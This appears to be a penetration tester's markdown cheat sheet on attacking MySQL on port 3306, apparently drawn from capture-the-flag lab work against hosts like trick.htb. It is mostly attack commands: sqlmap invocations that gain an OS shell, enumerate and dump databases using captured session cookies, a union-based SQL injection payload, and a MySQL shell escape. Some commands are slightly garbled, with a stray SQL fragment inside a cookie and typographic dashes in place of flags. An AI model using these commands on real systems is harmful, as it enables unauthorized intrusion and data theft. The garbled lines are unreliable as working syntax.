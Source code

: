 # Port 3306/tcp
## Stardard usage
 - MySQL
<hr>
10.129.228.56k
### Automatic tools for sql injection
#### sqlmap
-  for http endpoint api query
-  Usage:
   -  Reverse shell
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9USE mysql;l638e7n8ovv03e" --os-shell
    ```
   -  Init scanning db
    ```bash
    sqlmap ${curl_param}
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’
    ```
    - Enumerating for the databases
    ```bash
    sqlmap ${curl_param} --dbs
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’ –dbs
    ```
    - Get tables from a db
    ```bash
    sqlmap ${curl_param} -D db_name –tables
    ```
    - Dump a tables
    ```bash
    sqlmap ${curl_param} -D db_name -T tb_name –dump
    ```

    - Combine usage with burp
        - Copy repeater request as req.map
        ```bash
        sqlmap -r sql.map -p total_service --batch
        ```
### SQL inject query
- Resource: https://book.hacktricks.xyz/pentesting-web/sql-injection
- Union-basd
    ```sql
    "test' and 1=2 UNION SELECT 1,sqlite_version(),3 -- -
    ```

### Shell in msql
```bash
\! sh
```
